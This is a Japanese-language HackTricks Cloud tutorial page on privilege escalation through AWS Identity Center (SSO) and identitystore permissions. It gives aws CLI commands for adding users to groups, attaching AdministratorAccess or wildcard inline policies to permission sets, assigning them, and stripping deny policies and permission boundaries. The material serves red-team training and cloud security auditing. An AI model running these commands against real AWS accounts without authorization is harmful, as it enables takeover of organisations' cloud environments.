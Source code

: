 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

AWS Identity Center / AWS SSOに関する詳細情報は以下を確認してください：

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
**デフォルト**では、**管理アカウント**からの**権限を持つユーザー**のみがIAMアイデンティティセンターにアクセスし、**制御**できることに注意してください。\
他のアカウントのユーザーは、そのアカウントが**委任管理者**である場合のみ許可されます。\
[詳細についてはドキュメントを確認してください。](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~パスワードのリセット~~

このような場合に権限を昇格させる簡単な方法は、ユーザーのパスワードをリセットする権限を持つことです。残念ながら、ユーザーにパスワードをリセットするためのメールを送信することしかできないため、ユーザーのメールにアクセスする必要があります。

### `identitystore:CreateGroupMembership`

この権限を使用すると、ユーザーをグループに設定でき、そのグループが持つすべての権限を継承します。

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

この権限を持つ攻撃者は、自分の管理下にあるユーザーに付与されたPermission Setに追加の権限を付与することができます。

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

この権限を持つ攻撃者は、自分の管理下にあるユーザーに付与されたPermission Setに追加の権限を付与することができます。

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

この権限を持つ攻撃者は、自分の管理下にあるユーザーに付与されたPermission Setに追加の権限を付与することができます。

{% hint style="warning" %}
この場合、これらの権限を悪用するには、**影響を受けるすべてのアカウント内にあるカスタマーマネージドポリシーの名前**を知っている必要があります。
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

この権限を持つ攻撃者は、自分の管理下にあるユーザーに対してアカウントにPermission Setを付与することができます。

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

ユーザーに割り当てられた特定のロール名に対するSTSの短期資格情報を返します。

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

しかし、取得方法がわからないアクセストークンが必要です（TODO）。

### `sso:DetachManagedPolicyFromPermissionSet`

この権限を持つ攻撃者は、指定された権限セットからAWS管理ポリシーの関連付けを削除できます。**管理ポリシーを切り離す（拒否ポリシー）**ことにより、より多くの権限を付与することが可能です。

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

この権限を持つ攻撃者は、指定された権限セットからカスタマー管理ポリシーとの関連を削除できます。**管理ポリシーを切り離す（拒否ポリシー）**ことにより、より多くの権限を付与することが可能です。

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

この権限を持つ攻撃者は、権限セットからインラインポリシーの権限を削除するアクションを実行できます。インラインポリシー（拒否ポリシー）を切り離すことで**より多くの権限を付与する**ことが可能です。

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

この権限を持つ攻撃者は、権限セットからPermission Boundaryを削除できます。Permission Boundaryから与えられたPermission Setの制限を取り除くことで、**より多くの権限を付与することが可能です**。

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
